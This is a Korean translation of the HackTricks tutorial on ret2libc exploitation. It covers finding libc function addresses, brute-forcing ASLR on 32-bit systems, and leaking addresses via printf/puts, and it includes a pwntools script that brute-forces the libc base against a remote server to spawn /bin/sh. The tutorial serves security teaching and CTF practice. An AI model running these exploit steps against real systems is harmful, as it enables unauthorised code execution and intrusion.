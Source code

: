 # Ret2lib

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## **기본 정보**

**Ret2Libc**의 본질은 취약한 프로그램의 실행 흐름을 공격자가 제공한 셸코드를 스택에 실행하는 대신 공유 라이브러리(예: **system**, **execve**, **strcpy**) 내의 함수로 리다이렉트하는 것입니다. 공격자는 페이로드를 작성하여 스택의 반환 주소를 원하는 라이브러리 함수를 가리키도록 수정하고, 호출 규약에 따라 필요한 인수가 올바르게 설정되도록도 배열합니다.

### **예시 단계 (간소화)**

* 호출할 함수의 주소(예: system) 및 호출할 명령(e.g. /bin/sh)을 가져옵니다.
* 첫 번째 인수를 가리키는 ROP 체인을 생성하여 명령 문자열을 가리키고 함수로 실행 흐름을 전달합니다.

## 주소 찾기

* 현재 시스템에서 사용 중인 `libc`를 가정하면 메모리에 로드될 위치를 다음과 같이 찾을 수 있습니다:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

ASLR가 libc 주소를 변경하는지 확인하려면 다음을 수행할 수 있습니다:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* 사용된 libc를 알면 `system` 함수의 오프셋을 찾을 수도 있습니다:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* 사용된 libc를 알면 `/bin/sh` 문자열 함수의 오프셋을 찾을 수도 있습니다:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF를 사용하는 방법

사용 중인 libc를 알고 있다면, Peda 또는 GEF를 사용하여 **system** 함수, **exit** 함수 및 문자열 **`/bin/sh`**의 주소를 얻을 수도 있습니다:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps 사용

프로세스가 **매번 대화할 때마다 자식 프로세스를 생성**하는 경우 (네트워크 서버), **해당 파일을 읽어보세요** (아마도 루트 권한이 필요할 것입니다).

여기서 **프로세스 내부에 libc가 정확히 어디에 로드되어 있는지**와 **프로세스의 각 자식이 어디에 로드될 것인지**를 찾을 수 있습니다.

![](<../../../.gitbook/assets/image (853).png>)

이 경우 **0xb75dc000**에 로드됩니다 (이것이 libc의 기본 주소가 될 것입니다)

## 알 수 없는 libc

바이너리가 로드하는 libc를 **알 수 없는** 경우가 있을 수 있습니다 (접근할 수 없는 서버에 위치할 수 있습니다). 이 경우 취약점을 악용하여 **일부 주소를 노출시키고 어떤 libc 라이브러리가 사용 중인지** 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

또한 이에 대한 pwntools 템플릿을 다음에서 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### 2개의 오프셋을 가진 알려진 libc

페이지 [https://libc.blukat.me/](https://libc.blukat.me/)를 확인하고 libc 내의 함수들의 **두 주소**를 사용하여 **사용된 버전**을 확인하세요.

## 32비트에서 ASLR 우회

이러한 무차별 대입 공격은 **32비트 시스템에만 유용**합니다.

* 공격이 로컬인 경우, libc의 기본 주소를 무차별 대입할 수 있습니다 (32비트 시스템에 유용):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 원격 서버를 공격하는 경우 `libc` 함수 `usleep`의 주소를 **10** (예: 10)으로 전달하여 **`usleep` 함수의 주소를 찾을 수 있습니다.** 서버가 응답하는 데 **10초 더 걸린다면**, 이 함수의 주소를 찾은 것입니다.

## One Gadget

`libc`에서 **특정 주소**로 점프하여 셸을 실행하는 **one gadget**:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib 코드 예시

이 예시에서 ASLR 브루트포스가 코드에 통합되어 있으며 취약한 이진 파일이 원격 서버에 위치해 있습니다:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib 코드 예제

다음 예제를 확인하십시오:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## ARM64 Ret2lib 예제

ARM64의 경우, ret 명령은 x30 레지스터가 가리키는 곳으로 점프하며 스택 레지스터가 가리키는 곳으로는 점프하지 않습니다. 따라서 조금 더 복잡합니다.

또한 ARM64에서는 명령이 하는 대로 동작하며(명령의 중간으로 점프하여 새로운 명령으로 변환하는 것은 불가능합니다).

다음 예제를 확인하십시오:

{% content-ref url="ret2lib-+-printf-leak-arm64.md" %}
[ret2lib-+-printf-leak-arm64.md](ret2lib-+-printf-leak-arm64.md)
{% endcontent-ref %}

## printf로 Ret하기 (또는 puts)

이를 통해 `printf`/`puts`를 호출하여 특정 데이터를 인수로 전달하여 프로세스에서 정보를 유출할 수 있습니다. 예를 들어 `puts`의 주소를 GOT에 넣고 `puts`를 실행하면 메모리에서 `puts`의 주소를 유출할 수 있습니다.

## Ret2printf

이는 `ret2lib`를 남용하여 `printf` 형식 문자열 취약점으로 변환하는 것을 의미하며, `ret2lib`를 사용하여 해당 값을 호출하여 취약점을 악용합니다 (의미 없어 보이지만 가능합니다):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## 다른 예제 및 참고 자료

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc의 함수 주소 유출을 통해 one gadget 사용
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64비트, ASLR 활성화되어 있지만 PIE가 없는 경우, canary의 바이트 0x00까지 오버플로우를 채워 puts를 호출하여 유출합니다. Canary를 사용하여 puts의 주소를 GOT에서 유출하고 `system('/bin/sh')`를 호출하는 ROP 가젯을 생성합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64비트, ASLR 활성화, canary 없음, 메인 함수에서의 스택 오버플로우. puts를 호출하여 puts의 주소를 GOT에서 유출한 다음 one gadget을 호출합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64비트, PIE 없음, canary 없음, relro 없음, nx. write 함수를 사용하여 write (libc)의 주소를 유출하고 one gadget을 호출합니다.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* 스택에서 canary를 유출하기 위해 형식 문자열을 사용하고 버퍼 오버플로우를 사용하여 `/bin/sh`의 주소로 시스템을 호출합니다.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32비트, relro 없음, canary 없음, nx, pie. libc 및 힙의 주소를 스택에서 유출하기 위해 잘못된 인덱싱을 악용합니다. 버퍼 오버플로우를 사용하여 `system('/bin/sh')`를 호출하는 ret2lib을 수행합니다 (힙 주소가 체크를 우회하는 데 필요합니다).
